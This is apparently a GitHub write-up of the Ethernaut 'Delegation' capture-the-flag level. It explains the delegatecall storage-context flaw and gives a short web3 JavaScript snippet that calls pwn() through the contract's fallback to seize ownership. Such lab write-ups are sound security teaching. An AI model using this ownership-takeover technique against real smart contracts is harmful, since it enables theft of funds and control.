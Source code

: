 # Level6 - Delegation

- [link to challenge](https://ethernaut.zeppelin.solutions/level/0x68756ad5e1039e4f3b895cfaa16a3a79a5a73c59)

# Issue

Delegatecall executes an external contracts code insdie the context of the calling contract meaning that code in the external contract affects variables inside the calling contract. This feature enables libraries to be called but can also lead to vulernabilies.

In this instance, we invoke the fallback function on Delegation and get it to call the pwn() method on Deletegate which sets the Delegation owner to msg.sender (us).

# Solution

```
var to = "0x5084a9d0604cdeeb58e36debc06d432451da0a34"
var from = eth.accounts.wallet[0].address
var data = web3.utils.sha3("pwn()").substring(0,10) // ie: "0xdd365b8b"
web3.eth.sendTransaction({ to, from, data, gas, gasPrice }).then(console.log)
```
